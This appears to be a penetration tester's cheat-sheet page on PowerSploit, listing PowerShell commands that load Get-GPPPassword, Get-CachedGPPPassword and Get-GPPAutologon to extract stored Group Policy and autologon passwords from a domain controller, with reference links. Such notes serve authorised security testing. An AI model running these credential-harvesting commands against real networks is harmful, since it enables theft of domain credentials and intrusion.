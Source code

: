 # PowerSploit

## PowerUp

```
PS C:\> ipmo .\PowerUp.ps1

PS C:\> Get-CachedGPPPassword

PS C:\> Get-GPPPassword
```

## Get-GPPAutologon

```
PS C:\> Import-Module .\Get-GPPAutologon.ps1

PS C:\> Get-GPPAutologon

PS C:\> Get-GPPAutologon | ForEach-Object {$_.passwords} | Sort-Object -Uniq
```

## Get-GPPPassword

Targets the domain controller to grab the stored credentials.

```
PS C:\> Import-Module .\Get-GPPPassword.ps1

PS C:\> Get-GPPPassword [-Server <DOMAIN.COM>]
```

---
## References

- [[03 - Offensive Infrastructure/E - Setup Machine/0x03 - Bring Your Own Land/Windows/PowerSploit]]

- [PowerSploit: Get-GPPAutologon](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPAutologon.ps1)

- [PowerSploit: Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)